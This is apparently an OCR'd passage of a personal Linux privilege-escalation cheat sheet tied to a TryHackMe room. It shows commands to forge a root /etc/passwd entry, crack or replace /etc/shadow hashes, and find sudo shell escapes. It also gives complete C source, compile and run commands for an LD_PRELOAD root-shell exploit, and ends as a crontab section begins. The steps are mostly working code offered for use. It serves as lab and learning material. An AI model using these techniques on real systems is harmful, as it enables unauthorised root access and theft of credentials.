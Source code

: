 7.    Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.



``` 
1. "openssl passwd -1 -salt [salt] [password] or openssl passwd newpasswordhere"
2. new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0 :/root:/bin/bash
```
### /etc/shadow
#### Readable 
If you can read the shadow file you have access to all the users hashes. You can then crack them using johnny.
#### Writable
You can swap out a person's hash with your own. To make a hash use:
```
mkpasswd -m sha-512 newpasswordhere
```


## Sudo - Shell Escape Sequences 
When you do sudo -l you can find out what you can use sudo on. Sometimes the program can be used to get a root shell. To find which programs you can use go onto GTFOBins (https://gtfobins.github.io).

##  Sudo - Environment Variables 
I recommend looking at https://tryhackme.com/room/linuxprivesc. It is much clearer. Sudo can be configured with certain enviromental cariables from user's enviroment. To check which env vars are inherited look for env_keep when running "sudo -l".

Then create a file like "preload.c":
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
After that compile it with:
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so CFILELOCATION
```
And finally run it like this:
```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```



## Exploting Crontab
Crontab is a process that scheduled. Often scripts miss this so make sure to llok at this under "/etc/crontab"
It is very usefull to use "locate NAME" to find the script. 
